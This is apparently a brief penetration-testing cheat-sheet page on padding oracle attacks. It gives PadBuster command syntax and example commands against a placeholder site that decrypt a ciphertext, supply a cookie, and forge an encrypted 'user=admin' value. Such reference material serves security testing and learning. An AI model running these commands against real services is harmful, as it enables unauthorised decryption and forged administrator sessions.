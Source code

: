 ```yaml
---
title: Padding Oracle Attack
desc: 
tags: [AES, Cryptography, Oracle, PadBuster, Padding, XOR]
alts: []
render_with_liquid: false
---
```


## Using PadBuster

**[PadBuster](https://github.com/AonCyberLabs/PadBuster){:target="_blank"}** is automated script for performing Padding Oracle attacks. It’s useful to decrypt AES.

1. **Basic Usage**

    ```sh
    padbuster <url> <encrypted sample> <block size> [options]
    ```

2. **Examples**

    ```sh
    # Encrypted Sample -> 2hN2bBPw==
    # 16 -> Block site
    # -encoding: 0->Base64, 1->Lower Hex, 2->Upper Hex, 3->NET UrlToken, 4->WebSafe Base64
    padbuster https://vulnerable.com/?data=2hN2bBPw== 2hN2bBPw==  16 -encoding 0

    # -cookies: specify cookie value
    padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw=="

    # -plaintext: specify plain text
    padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw==" -plaintext "user=admin"
    ```
